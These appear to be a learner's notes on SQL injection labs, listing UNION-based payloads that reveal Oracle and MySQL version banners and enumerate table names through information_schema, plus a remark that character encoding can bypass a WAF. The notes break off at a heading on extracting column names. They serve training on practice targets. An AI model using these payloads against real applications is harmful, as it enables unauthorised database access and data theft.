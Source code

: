   
every `SELECT` statement must specify a table to select `FROM`.  
  
`'+UNION+SELECT+'abc','def'+FROM+dual--`  
  
  

# Lab: SQL injection attack, querying the database type and version on Oracle

  
  
`'+UNION+SELECT+BANNER,+NULL+FROM+v$version--`  
  
  

# Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

  
  
'+union+select+%40%40version,NULL%23  
⇒ Character Encoding is one way to bypass waf  
  
**

# SQLi Challenge:

  
  
Level: 1  
Version: 8.0.21  
USER: zixem@localhost  
  

# Extracting table names from the database

  
  
***Payload:*** UNION SELECT c1,table\_name,c3,c4,c5....cN FROM
information\_schema.tables WHERE table\_schema = database()--  
  
***Analysis:***  
◇ table\_name == ‘format spacifier’  
◇ information\_schema == “`INFORMATION_SCHEMA` provides access to
database metadata, information about the MySQL server such as the name
of a database or table, the data type of a column, or access
privileges”  
  
▪ MUST READ:
<https://dev.mysql.com/doc/mysql-infoschema-excerpt/8.0/en/information-schema-introduction.html>  
  
▪
<https://www.hackingloops.com/sql-injection-union-based-exploitation-part-2-the-injection/>  
  

# Extracting Column names from tables
